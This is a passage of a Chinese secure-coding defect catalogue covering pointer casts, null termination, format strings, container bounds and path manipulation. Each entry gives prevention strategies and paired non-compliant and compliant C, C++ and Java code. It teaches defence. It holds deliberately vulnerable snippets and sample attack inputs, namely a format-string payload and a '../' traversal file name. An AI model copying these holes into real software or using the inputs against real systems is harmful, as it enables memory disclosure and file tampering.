#### CWD-1034-010 使用来自外部的非空数据，转换为指针类型传递，直接解引用前有效性校验错误，导致不受信任的指针解引用

#### CWD-1034-011 使用来自外部的非空数据，转换为指针类型传递，传入库函数中使用前有效性校验错误，导致不受信任的指针解引用

#### CWD-1034-012 使用来自外部的非空数据，转换为指针类型传递，参与算术运算前有效性校验错误，导致不受信任的指针解引用

**业界缺陷**

- [CWE-822: Untrusted Pointer Dereference](https://cwe.mitre.org/data/definitions/822.html)
---

# CWD-1038 不同类型的对象指针之间转换错误

**描述**
不同的对象类型可能有不同的对齐要求，如果在不同类型的对象指针之间做强制转换，对象的对齐方式可能被改变，从而导致程序产生未定义行为。因此，不同类型的对象指针之间不应进行强制转换，建议使用相同类型。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：避免类型转换
  在编码时，遵循类型安全原则，尽量使用相同类型，指针类型和非指针类型之间的转换，或不同类型的指针之间的转换。
- 策略2：使用显式转换
  在进行指针类型转换时，使用显式转换。

**开发者测试**
- 策略2：检查类型转换
  检查指针类型转换，确保这些转换不会导致程序错误。

**编译构建**
- 策略1：启用编译器警告，捕获类型转换错误
  在编译过程中，启用编译器的警告和错误检查选项（如-Wall、-Werror），确保编译器在检测到不安全的类型转换时发出警告或错误。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测类型转换问题。

**示例**
**案例1: 小结构体指针类型转换成大结构体指针类型**
**语言: **C

**描述**
小结构体指针类型转换为大结构体指针类型时，由于大结构体包含更多成员变量，转换后访问超出小结构体实际内存范围的内存区域，导致越界访问。

**反例**
```c
typedef struct _S {
    int a;
    int b;
} S;
typedef struct _T {
    int a;
    int b;
    int c;
} T;
int FunctionTest(S* arg)
{
    T* t = (T *)(arg); // 不符合：指针类型转换
    if (t->c == 0) { // 越界访问
        ...
    }
    return 0;
}
```

**正例**
```c
int FunctionTest(T* arg)
{
    T* t = arg; // 符合：使用相同指针类型
    if (t->c == 0) {
        ...
    }
    return 0;
}
```

**修复建议**
应避免将指针类型转换为另一种指针类型，以防止越界访问。建议直接使用相同类型的指针。

#### CWD-1038-000 不同类型的对象指针之间转换错误

#### CWD-1038-001 指针转换为另一种指针前未校验缓冲区大小，导致类型转换错误

#### CWD-1038-002 指针转换为另一种指针前校验错误缓冲区大小，导致类型转换错误

**业界缺陷**

- [CWE-588: Attempt to Access Child of a Non-structure Pointer](https://cwe.mitre.org/data/definitions/588.html)
---

# CWD-1039 指针与非指针类型之间转换错误

**描述**
指针类型和非指针类型之间的转换错误通常会导致程序崩溃或产生未定义的行为。例如，整数（常量、变量）转换为指针时，行为是由实现定义的，可能未正确对齐，也可能未指向所引用类型的实体。为避免此类错误，应采取以下措施：


- 尽量避免指针类型与非指针类型之间的转换。- 如果需要将整数值转换为指针，使用uintptr_t或intptr_t类型，这些类型专为存储指针值而设计。
**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**编码**
- 策略1：避免类型转换
  在编码时，遵循类型安全原则，尽量使用相同类型，指针类型和非指针类型之间的转换，或不同类型的指针之间的转换。
- 策略2：使用适当的类型保存内存地址
  在必须做整数与指针间的互相转换时，建议使用uintptr_t或intptr_t类型存放转换后的指针值。
- 策略3：使用显式转换
  在进行指针类型转换时，使用显式转换。

**开发者测试**
- 策略2：检查类型转换
  检查指针类型转换，确保这些转换不会导致程序错误。

**编译构建**
- 策略1：启用编译器警告，捕获类型转换错误
  在编译过程中，启用编译器的警告和错误检查选项（如-Wall、-Werror），确保编译器在检测到不安全的类型转换时发出警告或错误。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测类型转换问题。

**示例**
**案例1: 使用不正确的类型保存内存地址且进行了整数转指针操作**
**语言: **C

**描述**
使用INT32和UINT32类型来存储内存地址，这在64位系统中可能会导致地址截断。

**反例**
```c
typedef struct tagLIB5822_CTRL_DEV {
    INT32 iAddrMap;         /* 记录进程空间地址和物理地址差，用来进行地址转换 */
    UINT32 uiPciBaseAddr;   /* PCI基址, ReplantInV5V8, 地址扩为64位后需要修改 */
    ...
} LIB5822_CTRL_DEV_S;
LIB5822_CTRL_DEV_S dev = ...;
void *addr = (void *)dev.iAddrMap;          // 不符合
void *baseAddr = (void *)dev.uiPciBaseAddr; // 不符合
```

**正例**
```c
typedef struct tagLIB5822_CTRL_DEV {
    intptr_t iAddrMap;         /* 记录进程空间地址和物理地址差，用来进行地址转换 */
    uintptr_t uiPciBaseAddr;   /* PCI基址, ReplantInV5V8, 地址扩为64位后需要修改 */
    ...
} LIB5822_CTRL_DEV_S;
LIB5822_CTRL_DEV_S dev = ...;
void *addr = (void *)dev.iAddrMap;          // 符合
void *baseAddr = (void *)dev.uiPciBaseAddr; // 符合
```

**修复建议**
- 考虑是否必须要做整数与指针间的互相转换，如非必要，不进行转换。
- 在必须做整数与指针间的互相转换时，建议使用uintptr_t或intptr_t类型存放转换后的指针值。
- 在转换时，确保使用(uintptr_t)或(intptr_t)进行显式转换。

#### CWD-1039-000 指针与非指针类型之间转换错误

#### CWD-1039-001 非指针类型转换为指针类型前未校验，导致类型转换错误

#### CWD-1039-002 非指针类型转换为指针类型前校验错误，导致类型转换错误

#### CWD-1039-003 指针类型转换为非指针类型，结果值超出转换后类型的取值范围，导致类型转换错误

**业界缺陷**

- [CWE-587: Assignment of a Fixed Address to a Pointer](https://cwe.mitre.org/data/definitions/587.html)
---

# CWD-1040 不正确的null结束符

**描述**
字符串以null结束符（在C语言中是`'\0'`）结尾，表示字符串的结束。丢失或放错位置的结束符指的是在字符串操作（如复制或拼接）时，结束符未被正确放置或丢失，导致程序无法正确识别字符串的结束位置。

这种情况可能导致缓冲区溢出，程序读取或写入无效内存区域，引发程序崩溃、数据损坏或安全漏洞（如恶意代码注入）。

为了避免这种漏洞，需确保目标缓冲区足够大，使用安全的字符串函数，并在动态内存分配时预留足够的空间以容纳结束符，避免因结束符处理不当引发问题。

**语言: **C,CPP

**严重等级**
提示

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：使用华为安全函数库中的安全函数或经华为认可的其他安全函数
  在设计阶段明确禁止使用不安全的内存操作函数（如strcpy、 strcat），推荐使用华为安全函数库中的安全函数或经华为认可的其他安全函数（如strcpy_s、strcat_s）。设计文档中应详细说明这些安全要求，确保开发人员在编码时遵循。

**编码**
- 策略1：正确分配内存
  在动态分配内存时，确保分配的大小包含足够的空间以容纳空终止符（如malloc(n + 1)）。
- 策略2：使用华为安全函数
  优先使用 strcpy_s 等自动添加结束符的函数。
- 策略3：正确使用字符串函数
  在使用字符串相关函数时，确保完全理解其参数和返回值说明，以正确添加空终止符，避免因操作不当引发的问题。

**开发者测试**
- 策略1：边界条件测试
  编写测试用例，模拟字符串长度刚好达到或超过缓冲区大小的情况，确保null结束符正确。

**代码Review**
- 策略1：检查字符串操作
  重点检查所有字符串操作，确保使用安全函数且正确处理null结束符。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测潜在的null结束符问题。

**示例**
**案例1: 没有正确检查readlink返回值导致null结束符被写到缓冲区之外**
**语言: **C

**描述**
```
// 函数原型
#include <unistd.h>
ssize_t readlink(const char *path, char *buf, size_t bufsiz);
```
readlink()会将参数path的符号链接内容存储到参数buf所指的内存空间，buf不是以null结尾的。readlink()执行成功则返回字符串的字符数，失败返回-1， 错误代码存于errno。

反例中未检查readlink()的返回值r是否小于缓冲区大小BUF_SIZE，直接在filePath[r]处添加空终止符，可能导致越界。

**反例**
```c
void ReadlinkBadCase02()
{
    char filePath[BUF_SIZE];
    ssize_t r = readlink("some_file_path", filePath, sizeof(filePath));
    if (r == -1) {
        return;
    }
    filePath[r] = '\0';  // 不符合：未检查r是否小于BUF_SIZE，可能导致缓冲区溢出
}
```

**正例**
```c
void ReadlinkGoodCase01()
{
    char filePath[BUF_SIZE];
    ssize_t r = readlink("some_file_path", filePath, sizeof(filePath));
    if (r != -1 && r < sizeof(filePath)) {
        filePath[r] = '\0';  // 符合: 确认返回值不是`-1，并且小于BUF_SIZE
    }
}
```

**修复建议**
调用readlink函数时，需要：
1. 检查返回值：在调用readlink()后，首先检查返回值是否为-1，以确定是否发生错误。
2. 确保缓冲区足够：在添加空终止符之前，确保返回值小于缓冲区的大小，避免越界。

#### CWD-1040-000 不正确的null结束符

#### CWD-1040-001 数据来源为内部有结束符的字符串，经过字符串操作函数处理后，生成的字符串不带结束符，导致字符串访问越界

#### CWD-1040-002 数据来源为内部无结束符的字符串，传递给依赖 null 结束符的string变量，导致字符串访问越界

#### CWD-1040-003 数据来源为内部无结束符的字符串，传递给依赖 null 结束符的字符串操作函数，导致字符串访问越界

#### CWD-1040-004 数据来源为内部无结束符的字符串，经过字符串操作函数处理后，生成的字符串不带结束符，导致字符串访问越界

#### CWD-1040-005 数据来源为外部无结束符的字符串，传递给依赖 null 结束符的string变量，导致字符串访问越界

#### CWD-1040-006 数据来源为外部无结束符的字符串，传递给依赖 null 结束符的字符串操作函数，导致字符串访问越界

#### CWD-1040-007 数据来源为外部无结束符的字符串，经过字符串操作函数处理后，生成的字符串不带结束符，导致字符串访问越界

#### CWD-1040-008 数据来源为外部有结束符的字符串，经过字符串操作函数处理后，生成的字符串不带结束符，导致字符串访问越界

**业界缺陷**

- [CWE-170: Improper Null Termination](https://cwe.mitre.org/data/definitions/170.html)
---

# CWD-1042 未受控的格式化字符串

**描述**
在格式化输出函数中使用外部可控的格式化字符串，导致可读取内存或执行非授权代码或命令

**语言: **C,CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：明确数据来源和边界条件
  在设计阶段，明确数据来源和边界条件。对于外部数据，设计输入验证机制，确保数据在合理范围内。

**编码**
- 策略1：避免使用动态格式化字符串
  在编码时，严格避免将外部输入直接用作格式化字符串。如果必须使用动态格式化字符串，进行严格的验证和过滤，确保不包含危险的格式说明符。

**开发者测试**
- 策略1：恶意输入测试
  编写测试用例，模拟攻击者输入恶意格式化字符串，检查程序是否能正确处理或拒绝输入。测试应包括各种恶意格式说明符，确保程序不会崩溃或泄露信息。

**代码Review**
- 策略1：检查格式化操作
  所有使用格式化字符串的地方，确保没有外部输入被直接用作格式化字符串。

**编译构建**
- 策略1：启用编译器警告和错误检测

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测使用外部可控的格式化字符串问题。

**示例**
**案例1: 直接使用外部数据构造格式化字符串**
**语言: **CPP

**描述**
若直接使用外部数据构造格式化字符串，攻击者可以通过控制格式字符串的结构，导致程序异常或信息泄露。

**案例分析**
当输入"%s%s%"时，可能触发无效指针或未映射的地址读取。此时input被当做格式化字符串,printf()会读取栈中任意内存位置，直到格式字符耗尽或遇到一个无效指针或未映射地址为止。

**反例**
```cpp
void Noncompliant(char *user, char *password)
{
    char input[1000];
    if(NULL == fgets(input, sizeof(input) - 1, stdin)) {
        //handle error
    }
    input[sizeof(input) - 1] = '\0';
    printf(input);  // 不符合：将用户输入直接作为格式化字符串
}
```

**正例**
```cpp
void Compliant(char *user, char *password)
{
    char input[1000];
    if(NULL == fgets(input, sizeof(input) - 1, stdin)) {
        //handle error
    }
    input[sizeof(input) - 1] = '\0';
    printf("%s\n", input);  // 符合：通过%s将格式化字符串确定下来
}
```

**修复建议**
1、在实际开发代码过程中，应避免直接使用外部数据构造格式化字符串或直接使用外部数据作为格式化字符串使用。
2、如果确实需要使用的时候，需要对外部数据进行校验过滤，防止外部攻击。

**案例2: 直接使用外部数据构造格式化字符串**
**语言: **JAVA

**描述**
若直接使用外部数据构造格式化字符串，攻击者可以通过控制格式字符串的结构，导致程序异常或信息泄露。

**反例**
```java
public void doSomething() {
    String formatStr = req.getParameter("format");
    ...
    String value = getData();

    // 【不符合】 formatStr为外部数据
    String.format(formatStr, value));
}
```

**正例**
```c
// 白名单正则，防止重复编译。（仅为示例，请按业务情况自定义）
private static final Pattern VALID_REGEX = Pattern.compile("[0-9a-zA-Z]+");

// valid开头的自定义校验函数。
private boolean validRegex(String key) {
    return (VALID_REGEX.matcher(key).matches()) ? true : false;
}

public void doSomething(HttpServletRequest request) throws WrongInputException {
    String formatStr = req.getParameter("format");
    ...
    String value = getData();

     // 【GOOD】使用valid开头的自定义校验函数去校验外部数据。
    if (validRegex(formatStr)) {
        String.format(formatStr, value));
    ...
    } else {
        log.error("Invalid input ...");
        throw new WrongInputException("Invalid input");
    ...
    }
}
```

**修复建议**
1、在实际开发代码过程中，应避免直接使用外部数据构造格式化字符串或直接使用外部数据作为格式化字符串使用。
2、如果确实需要使用的时候，需要对外部数据进行校验过滤，防止外部攻击。

#### CWD-1042-000 未受控的格式化字符串

#### CWD-1042-001 使用外部数据构造格式化字符串前未校验，导致格式化字符串漏洞

#### CWD-1042-002 使用外部数据构造格式化字符串前校验错误，导致格式化字符串漏洞

#### CWD-1042-003 String类的format函数格式化字符串漏洞

#### CWD-1042-004 Console类的format、printf函数格式化字符串漏洞

#### CWD-1042-005 System.out.printf函数格式化字符串漏洞

#### CWD-1042-006 Formatter类format函数格式化字符串漏洞

**业界缺陷**

- [CWE-134: Use of Externally-Controlled Format String](https://cwe.mitre.org/data/definitions/134.html)
---

# CWD-1043 容器访问越界

**描述**
在程序中试图访问容器（如列表、字典、栈、队列等）中不存在的元素，或者访问位置超出了容器的实际边界。这种情况通常发生在使用索引或迭代子（Iterator）访问容器元素时，未对索引范围进行有效检查，导致程序尝试访问内存中不属于该容器的区域。容器越界访问通常会导致程序崩溃或产生不可预期的行为。为预防容器越界访问，建议采取以下措施：


- 在访问容器元素前，必须进行严格的边界检查，确保索引或偏移量在有效范围内；- 尽量使用容器提供的安全接口或内置方法，避免直接操作内存地址；- 可以采用异常处理机制，在发生越界访问时及时捕获异常并进行妥善处理，避免程序崩溃。
**语言: **CPP,JAVA

**严重等级**
一般

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：明确数据来源和边界条件
  在设计阶段，明确数据来源和边界条件。对于外部数据，设计输入验证机制，确保数据在合理范围内。对于内部数据，设计计算逻辑时考虑边界情况，避免差一错误。

**编码**
- 策略1：明确数据来源和边界条件
  在访问容器元素前，显式检查索引是否在有效范围内。注意要避免差一错误。
- 策略2：明确循环边界
  在循环中使用正确的边界条件，避免循环次数超过容器大小。
- 策略3：异常处理机制
  确保越界访问时能够被捕获并处理，避免程序崩溃。

**开发者测试**
- 策略1：边界条件测试
  编写单元测试，覆盖容器为空、索引为0、最大索引等边界情况。同时，模拟外部数据输入，确保所有可能的输入都被正确处理。

**代码Review**
- 策略1：审查索引逻辑
  特别关注容器的使用情况，确保所有容器访问都有适当的边界检查。

**代码检查**
- 策略1：工具静态安全扫描
  使用静态分析工具（如CodeCheck）检测容器索引越界问题。

**示例**
**案例1: 访问一个空容器的元素导致容器越界访问**
**语言: **CPP

**描述**
如果容器的内容因条件判断而改变，可能会导致容器为空的情况。如果不进行空检查就直接访问容器元素，可能会引发容器越界访问。

**反例**
```cpp
int Func()
{
    vector<int> vec;
    // 假设vec在某些条件下可能为空
    if (cond) {
        vec.push_back(10);
    }
    return vec[0]; // 不符合：vec为可能为空，容器越界访问
}
```

**正例**
```cpp
int Func()
{
    vector<int> vec;
    // 假设vec在某些条件下可能为空
    if (cond) {
        vec.push_back(10);
    }
    if (!vec.empty()) { // 先检查容器是否为空
        return vec[0]; // 符合
    }
    return 0;
}
```

**修复建议**
1. 添加空检查：在访问容器元素之前，使用empty()方法检查容器是否为空。如果容器为空，则避免访问其元素。
2. 使用范围检查：对于非空容器，确保访问的索引在容器的有效范围内。例如，使用size()方法获取容器的大小，并确保索引小于容器的大小。

**案例2: Iterator未检查hasNext()导致越界访问**
**语言: **JAVA

**描述**
在Java中，使用Iterator遍历容器时，如果不先检查hasNext()方法，直接调用next()方法，可能会导致NoSuchElementException异常。

**案例分析**
如果容器为空或遍历到最后一个元素后继续调用next()，会导致NoSuchElementException异常。

**反例**
```cpp
public static String findObjElement(List<String> stringList) {
    Iterator<String> iter = stringList.iterator();
    while (true) {
        String str = iter.next(); // 不符合：如果下一个元素不存在会抛异常 java.util.NoSuchElementException
        if (str.length() > 10) {
            return str;
        }
    }
    return "";
}
```

**正例**
```cpp
public static String findObjElement(List<String> stringList) {
  Iterator<String> iter = stringList.iterator();
  while (iter.hasNext()) { // 先调用Iterator.hasNext()保证元素存在
      String str = iter.next(); // 符合
      if (str.length() > 10) {
          return str;
      }
  }
  return "";
}
```

**修复建议**
1. 使用hasNext()检查：在调用Iterator的next()方法之前，先调用hasNext()方法，确保容器中存在下一个元素。
2. 在调用next()方法时，可以使用try-catch块捕获NoSuchElementException异常，并进行相应的处理，以避免程序崩溃。

#### CWD-1043-000 容器访问越界

#### CWD-1043-001 使用来自内部数据的数值，传递过程未经过计算，直接作为容器索引前未校验，导致容器访问越界

#### CWD-1043-002 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为容器索引前未校验，导致容器访问越界

#### CWD-1043-003 使用来自内部数据的数值，传递过程未经过计算，直接作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-004 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-005 使用来自内部数据的数值，传递过程未经过计算，直接作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-006 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-007 使用来自内部数据的数值，传递过程未经过计算，直接作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-008 使用来自内部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-009 使用来自内部数据的数值，传递过程经过正确计算，直接作为容器索引前未校验，导致容器访问越界

#### CWD-1043-010 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为容器索引前未校验，导致容器访问越界

#### CWD-1043-011 使用来自内部数据的数值，传递过程经过正确计算，直接作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-012 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-013 使用来自内部数据的数值，传递过程经过正确计算，直接作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-014 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-015 使用来自内部数据的数值，传递过程经过正确计算，直接作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-016 使用来自内部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-017 使用来自内部数据的数值，传递过程经过错误计算，直接作为容器索引前未校验，导致容器访问越界

#### CWD-1043-018 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为容器索引前未校验，导致容器访问越界

#### CWD-1043-019 使用来自内部数据的数值，传递过程经过错误计算，直接作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-020 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-021 使用来自内部数据的数值，传递过程经过错误计算，直接作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-022 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-023 使用来自内部数据的数值，传递过程经过错误计算，直接作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-024 使用来自内部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-025 使用来自外部数据的数值，传递过程未经过计算，直接作为容器索引前未校验，导致容器访问越界

#### CWD-1043-026 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为容器索引前未校验，导致容器访问越界

#### CWD-1043-027 使用来自外部数据的数值，传递过程未经过计算，直接作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-028 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-029 使用来自外部数据的数值，传递过程未经过计算，直接作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-030 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-031 使用来自外部数据的数值，传递过程未经过计算，直接作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-032 使用来自外部数据的数值，传递过程未经过计算，作为循环边界，其循环变量作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-033 使用来自外部数据的数值，传递过程经过正确计算，直接作为容器索引前未校验，导致容器访问越界

#### CWD-1043-034 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为容器索引前未校验，导致容器访问越界

#### CWD-1043-035 使用来自外部数据的数值，传递过程经过正确计算，直接作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-036 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-037 使用来自外部数据的数值，传递过程经过正确计算，直接作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-038 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-039 使用来自外部数据的数值，传递过程经过正确计算，直接作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-040 使用来自外部数据的数值，传递过程经过正确计算，作为循环边界，其循环变量作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-041 使用来自外部数据的数值，传递过程经过错误计算，直接作为容器索引前未校验，导致容器访问越界

#### CWD-1043-042 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为容器索引前未校验，导致容器访问越界

#### CWD-1043-043 使用来自外部数据的数值，传递过程经过错误计算，直接作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-044 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为迭代器的偏移量前未校验，导致容器访问越界

#### CWD-1043-045 使用来自外部数据的数值，传递过程经过错误计算，直接作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-046 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为容器索引前校验错误，导致容器访问越界

#### CWD-1043-047 使用来自外部数据的数值，传递过程经过错误计算，直接作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-048 使用来自外部数据的数值，传递过程经过错误计算，作为循环边界，其循环变量作为迭代器的偏移量前校验错误，导致容器访问越界

#### CWD-1043-049 未判断容器是否为空， 直接访问首尾元素，导致容器访问越界

#### CWD-1043-050 当容器插入元素后，之前获取的迭代器失效，继续使用将导致访问已失效的迭代器

#### CWD-1043-051 当容器删除元素后，之前获取的迭代器失效，继续使用将导致访问已失效的迭代器

#### CWD-1043-052 当容器大小改变后，之前获取的迭代器失效，继续使用将导致访问已失效的迭代器

#### CWD-1043-053 当容器被释放后，之前获取的迭代器失效，继续使用将导致访问已失效的迭代器

#### CWD-1043-054 调用获取迭代器的函数后，未校验其有效性就直接解引用，导致使用无效迭代器

#### CWD-1043-055 调用获取迭代器的函数后，校验其有效性时出现错误，仍直接解引用，导致使用无效迭代器

#### CWD-1043-056 【使用不可信输入来直接/间接作为容器索引，但未确保索引值在容器大小范围内】不正确不可信输入来直接/间接作为容器索引，但未确保索引值在容器大小范围内

---

# CWD-1044 文件名或路径外部可控

**别名: **路径篡改

**描述**
允许用户输入来控制或影响文件系统操作中使用的路径或文件名。这可能允许攻击者访问或修改系统文件或其他对应用程序至关重要的文件，未经授权的文件、目录或系统资源，导致数据泄露、篡改或系统崩溃等严重后果。例如，从不受信任的源或环境执行命令或加载库（如`.so/.a/.dll`等）可能会导致应用程序执行攻击者预置的恶意指令。为了防止这种漏洞，开发人员应该对用户输入进行严格的验证和过滤，确保输入的文件名或路径是安全的，并以最小权限运行应用程序，以减少攻击面。


- 同时满足以下两个条件时，会导致路径处理错误：
  1. 攻击者可以指定在文件系统上的操作中使用的路径。  2. 通过指定资源，攻击者获得了在其他情况下不允许的功能。例如，该程序可能使攻击者能够覆盖指定的文件或使用由攻击者控制的配置运行。- 应用程序可以对意外的文件进行操作。当攻击者无法直接读取目标文件名时，就违反了机密性。- 应用程序可以对意外的文件进行操作。如果文件名被写入，或者文件名用于程序或其他形式的可执行代码，这可能会违反完整性。- 应用程序可以对意外的文件进行操作。如果攻击者指定了应用程序修改的意外文件，则会破坏可用性。如果攻击者为大文件指定文件名，或者指向一个特殊设备或一个不具有应用程序期望的格式的文件，可用性也会受到影响。
**语言: **C,CPP,JAVA

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：白名单校验
  当文件名集有限或已知时，创建从一组固定输入值（如数字ID）到实际文件名的映射，并拒绝所有其他输入。例如，ID 1可以映射到 `inbox.txt` ，ID 2可以映射到 `profile.txt` 。`ESAPI AccessReferenceMap`等特性提供了这种能力。
- 策略2：沙箱
  有效性：有限
  在类似的沙箱环境中运行代码，在进程和操作系统之间强制实施严格的边界。这可以有效地限制特定目录中可以访问哪些文件，或者软件可以执行哪些命令。操作系统级的包括`Unix chroot`、`AppArmor`和`SELinux`。一般来说，托管代码可以提供一些保护。例如`Java SecurityManager`中的`java.io.FilePermission`允许软件指定对文件操作的限制。
- 策略3：在服务端执行安全性检查
  在客户端和服务器端都执行安全性检查。如果仅在客户端执行安全性检查，攻击者可以通过在执行检查后修改值来绕过客户端检查，或者通过更改客户端以完全删除客户端检查。然后，这些修改后的值将被提交到服务器。
- 策略4：最小权限原则
  使用操作系统级别的权限并以低权限用户身份运行，以限制任何成功攻击的范围。

**编码**
- 策略1：输入验证 `推荐`
  有效性：高
  - 校验前，先对输入内容进行规范化处理。例如，使用内置的路径规范化函数（如C语言中的`realpath()`函数；JAVA语言中的`getCanonicalPath()`函数），该函数生成路径名的规范化版本，该函数有效地删除了`..`序列和符号链接。
    ```java
    // Java示例
    String canonicalPath = new File(userInput).getCanonicalPath();
    ```
    - C语言中 `realpath()`
    - Java中 `getCanonicalPath()`
    - ASP.NET中 `GetFullPath()`
    - Perl中 `realpath()`或`abs_path()`
    - PHP中 `realpath()`
  1. 假设所有输入都是恶意的。使用“接受已知良好”（`白名单`）的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。
  2. 执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的符合性。
  3. 不要完全依赖查找恶意或格式错误（`黑名单`）的输入。这很可能会错过至少一个不需要的输入，尤其是当代码的环境发生变化时。这可以给攻击者提供足够的空间来绕过预期的验证。但是，denylists对于检测潜在的攻击或确定哪些输入格式错误，以至于应该直接拒绝它们非常有用。
  4. 在验证文件名时，请使用严格的允许列表（`白名单`）来限制要使用的字符集。如果可行，在文件名中仅允许单个`.`字符以避免【CWD-1060 相对路径遍历】等弱点，并排除目录分隔符（如`/`）以避免【CWD-1061 绝对路径遍历】。使用允许的文件扩展名列表，这将有助于避免使用CWD-1046。
  5. 不要完全依赖于删除潜在危险字符的过滤机制。这相当于一个拒绝列表（`黑名单`），它可能是不完整的。
  - 例如，如果文件系统还支持使用 `\` 作为目录分隔符，则仅过滤 `/` 是不够的。
  - 另一个可能会发生的错误是应用过滤时仍然产生危险数据。例如，如果 `../` 序列从 `.../...//`字符序列中删除。`../` 的两个实例将从原始字符串中删除，但剩余的字符仍将构成 `../` 字符串。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：渗透测试
  在集成测试阶段，进行渗透测试，确保系统能够有效防御。示例：利用burpsuit进行抓包模拟攻击。
- 策略2：自动化安全测试
  使用自动化工具进行全面的安全测试，确保所有模块和接口都经过严格的安全验证。示例：使用工具如Selenium模拟攻击，测试系统安全性。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 依据外部提供的文件名进行删除操作导致自身其他文件被删除**
**语言: **JAVA

**描述**
使用来自HTTP请求的输入来创建文件名。没有考虑到攻击者可能会提供一个文件名，例如 `../../tomcat/conf/server.xml` ，这会导致应用程序删除自身的一个配置文件。

**反例**
```java
String rName = request.getParameter("reportName");

File rFile = new File("/usr/local/apfr/reports/" + rName);
...
rFile.delete();
```

**正例**
```java
String rName = request.getParameter("reportName");
File baseDir = new File("/usr/local/apfr/reports/");
File candidateFile = new File(baseDir, rName);

try {
    String canonicalPath = candidateFile.getCanonicalPath();
